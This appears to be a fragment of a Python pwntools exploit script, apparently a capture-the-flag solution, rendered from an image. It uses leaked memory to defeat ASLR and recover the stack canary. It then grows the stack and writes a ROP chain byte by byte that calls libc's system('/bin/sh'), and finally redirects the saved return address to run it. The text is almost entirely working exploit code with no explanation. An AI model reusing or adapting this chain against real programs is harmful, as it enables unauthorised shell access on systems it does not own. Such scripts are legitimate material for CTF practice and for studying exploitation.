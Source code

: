 ```py
out = p.recvrepeat(0.25)
leaks = [0 for _ in range(0x100)]
for i in out:
    leaks[i] += 1
leaks = list(map(lambda leak: '{:02x}'.format(leak), leaks))
addresses = [int(''.join(leaks[i*8:(i+1)*8][::-1]), 16) for i in range(0x100//8)]

stack_leak = addresses[0]
canary_leak = addresses[1]
elf.address = addresses[3] - elf.sym.sort - 0x270
libc.address = addresses[5] - libc.sym.__libc_start_call_main - 122

#---------GROW STACK AGAIN---------#

SAVED_RIP = elf.sym.main+0x1c # update SAVED_RIP since elf.sym.main is updated with elf.address

payload = bytes(increase_BFD_0x100 + change_addr(SAVED_RIP, elf.sym.main, 3*0x8))
assert len(payload) <= MAX_LEN
payload = payload.rjust(MAX_LEN, b'\x00')
send(payload, line=False)

#---------WRITE ROP CHAIN----------#

libc_rop = ROP(libc)
elf_rop = ROP(elf)
binsh = next(libc.search(b"/bin/sh\x00"))
GROW_CNT = 2
FARTHEST_OFFSET = 4

max_payload_len = 0
originals = [stack_leak + 0xb0, stack_leak + 0x10, stack_leak + 0x8]
news = [libc.sym.system, binsh, libc_rop.rdi.address]
offsets = [i + GROW_CNT for i in range(FARTHEST_OFFSET, 3 - GROW_CNT, -1)]
assert len(originals) == len(news)
for i,o,n in zip(range(len(originals)), originals, news):

    j = 0
    while originals[i] and news[i] and originals[i] != news[i]:
        payload = bytes(increase_BFD_0x100)
        payload += bytes(change_addr(originals[i], news[i], offsets[i]*0x8 + j, num_writes=1))
        payload += bytes(change_addr(SAVED_RIP, elf.sym.main+5, 3*0x8))
        assert len(payload) <= MAX_LEN
        max_payload_len = max(max_payload_len, len(payload) - len(increase_BFD_0x100))
        payload = payload.rjust(MAX_LEN, b'\x00')
        send(payload, line=False)

        originals[i] >>= 8
        news[i] >>= 8
        j += 1

#------------WRITE RET------------#

payload = bytes(increase_BFD_0x100)
payload += bytes(change_addr(SAVED_RIP, elf.sym.main+0x22, 3*0x8))
assert len(payload) <= MAX_LEN
payload = payload.rjust(MAX_LEN, b'\x00')
send(payload, line=False)

###################################
#===========END EXPLOIT===========#
###################################
```

